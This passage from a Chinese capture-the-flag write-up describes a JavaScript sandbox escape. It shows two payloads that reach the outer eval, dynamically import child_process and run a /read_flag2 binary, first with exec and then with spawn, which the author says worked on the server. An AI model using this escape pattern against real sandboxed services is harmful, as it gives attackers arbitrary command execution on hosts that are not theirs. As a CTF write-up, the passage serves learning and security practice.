 也就是说我们要写node脚本调用这个`/read_flag2`可执行文件。

**第二阶段提示：**

- Flag 2：虽然你没有 `require()`，但是你有其他的好东西，甚至包括 `import()`。

能用`import()`的话那还不简单：

```javascript
var eval = function(code){return _top.eval(code)}
var code = "async function run() {" +
    "const { exec } = await import('child_process');" +
    "exec('/read_flag2', (error, stdout, stderr) => {" +
    "if (error) {" +
    "console.error(exec error: ${error});" +
    "return;" +
    "}" +
    "console.log(stdout: ${stdout});" +
    "console.error(stderr: ${stderr});" +
    "});" +
    "}" +
    "run();"
eval(code)
```

然而`exec`在我本地能work，在服务器环境里却不行，估计是有权限什么的问题，最后换成了`spawn`就过了：

```javascript
var eval = function(code){return _top.eval(code)}
var code = "async function run() {" +
    "const { spawn } = await import('child_process');" +
    "const child = spawn('/read_flag2');" +
    "child.stdout.on('data', (data) => {" +
    "console.log(`stdout: ${data}`);" +
    "});" +
    "child.on('close', (code) => {" +
    "console.log(`child process exited with code ${code}`);" +
    "});" +
    "}" +
    "run();"
eval(code)
```
